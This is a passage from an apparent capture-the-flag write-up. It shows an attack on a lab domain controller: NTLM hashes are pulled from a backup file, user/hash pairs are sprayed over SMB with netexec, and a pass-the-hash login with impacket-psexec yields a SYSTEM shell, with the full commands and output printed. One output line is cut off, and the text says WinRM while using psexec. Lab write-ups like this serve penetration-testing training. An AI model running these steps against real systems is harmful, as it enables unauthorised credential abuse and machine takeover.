 As we have the hashes of the users we can try to login to these accounts. For that we can generate two wordlists. One wordlist are the NTLM hashes, the other wordlist is the user wordlist with the usernames.

```terminal
cat backup_extract.txt | awk -F\: '{ print $4}' > hashes.txt
cat backup_extract.txt | awk -F\: '{ print $1}' > users_hashes.txt
```

Now you can try if any hash and user combination works using netexec.

```terminal
$nxc smb 10.10.38.87 -u users_hashes.txt -H hashes.txt  --no-bruteforce
SMB         10.10.38.87     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.38.87     445    DC01             [-] SOUPEDECODE.LOCAL\WebServer$:c47b45f5d4df5a494bd19f13e14f7902 STATUS_LOGON_FAILURE 
SMB         10.10.38.87     445    DC01             [-] SOUPEDECODE.LOCAL\DatabaseServer$:406b424c7b483a42458bf6f545c936f7 STATUS_LOGON_FAILURE 
SMB         10.10.38.87     445    DC01             [-] SOUPEDECODE.LOCAL\CitrixServer$:48fc7eca9af236d7849273990f6c5117 STATUS_LOGON_FAILURE
LOCAL\FileServer$:HASH (Pwn3d!)
```

Finally because netexec already shows `Pwn3d!` we can WinRM into the machine. I used the `psexec` utility from impacket for that.

```terminal
$impacket-psexec -hashes ":HASH" SOUPEDECODE.LOCAL/'Fileserver$'@10.10.38.87
C:\Windows\system32> whoami /all                  

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
```